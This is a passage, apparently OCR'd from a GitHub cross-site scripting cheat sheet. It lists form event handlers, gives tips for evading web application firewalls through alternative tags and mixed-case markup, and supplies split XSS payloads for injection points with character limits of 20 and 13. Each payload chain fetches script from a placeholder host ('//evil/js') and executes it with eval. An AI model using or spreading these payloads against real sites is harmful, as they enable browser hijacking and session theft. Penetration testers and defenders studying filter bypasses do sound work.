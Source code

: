 | onreset       | form |
| onsubmit      | form |

*NOTE*

* Some WAFs block only some html tags (e.g. `<script>`), but not other tags, so don't give up after trying a few that got rejected.
* Some WAFs do a poor job and fail to block HTML tags or attributes when they are capitalized (or mixed case). Give that a try.
* Many event handlers require user action. See more at `https://www.w3schools.com/TAGS/ev_`**_event_**`.asp`

# Dealing with limited space

The below usecases are for character limit that doesn't allow the full payload in a single injection. Each line is a separate payload that requires wrapping to put it in a JS context (e.g. `<script>`**_payload_**`</script>`).

## Usecase: character limit is &gt;= 20 (not including wrapping)

* *Payloads order on the page doesn't matter.*

```
T=(o,f)=>o.then(f)
X=eval
Y='//evil/js'
Z=r=>T(r.text(),X)
J=_=>T(fetch(Y),Z)
setTimeout(_=>J(),9)
```

## Usecase: character limit is &gt;= 13 (not including wrapping)

* *Payloads order on page __does__ matter.*

```
p=Promise
P=p.prototype
t=P.then
tc=t.call
T=tc.bind(t)
r=Response
R=r.prototype
z=R.text
zc=z.call
Z=zc.bind(z)
E=eval
j='//evil/js'
J=fetch(j)
T(T(J,Z),E)
```
